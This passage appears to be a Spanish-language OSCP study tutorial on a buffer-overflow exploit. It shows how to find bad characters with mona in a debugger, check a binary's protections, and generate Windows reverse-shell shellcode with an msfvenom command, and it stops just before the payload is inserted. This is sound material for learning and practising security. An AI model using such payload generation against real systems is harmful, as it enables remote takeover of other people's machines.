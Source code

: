 Volvemos a debuggear el binario, borramos el badchar del script, lo ejecutamos y volvemos a comparar en el debugger para ver si siguen quedando badchars.

![pattern](https://i.ibb.co/MyHWfWN/image2.png)


Vemos que el siguiente badchar sería el a0 (\xa0), repetimos el proceso de exclusión.
Primero lo excluimos de mona, volvemos a ejecutar el binario en el debugguer, después lo borramos del script del exploit, volvemos a ejecutar el exploit y volvemos a comparar en el debugger:



    !mona bytearray -b "\x00\x07\x2e\xa0"

![pattern](https://i.ibb.co/NN4z5V1/image2.png)


Como podemos ver ya no se detectan badchar, en la comparación no aparece ningún badchar, el status es undifined significa que los badchar que no interpretaba mi binario eran los siguientes : **"\x00\x07\x2e\xa0"**




# Generar payload malicioso para conseguir una reverse shell

A través de mona podemos detectar si el binario tiene algún tipo de protección que tengamos que Bypass, en el caso de la OSCP el binario viene sin protección.
Los tipos de protecciones que hay son: Rebase, SafeSEH, ASLR, NX Compat, OS DLL.
En el caso del binario que estoy explotando vemos que tiene todo en *"False"* por lo tanto no tiene proteccion.
Para ver si nuestro binario está protegido ponemos:



    !mona modules

![pattern](https://i.ibb.co/WK1mdXy/modules.png)


Una vez detectados todos los badchar podemos empezar a generar nuestro código malicioso.
Para hacer esto hay varias formas pero lo mas sencillo es utilizar msfvenom que es una herramienta para poder generar shellcodes.

- LHOST = Nuestra direccion IP
- LPORT = Puerto por el cual se va a generar la conexion inversa
- -b = especificamos los badchar, en mi caso son : “\x00\x07\x2e\xa0”
- EXITFUNC = Función que genera un hilo sobre el proceso, en el caso de que el proceso padre falle quede el hilo para que no se pierda la conexion.

    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -b “\x00\x07\x2e\xa0” -f c


![pattern](https://i.ibb.co/jyty8F1/image2.png)


Copiamos todo el shellcode y lo pegamos en el payload del exploit
Les tendria que quedar algo como esto : 
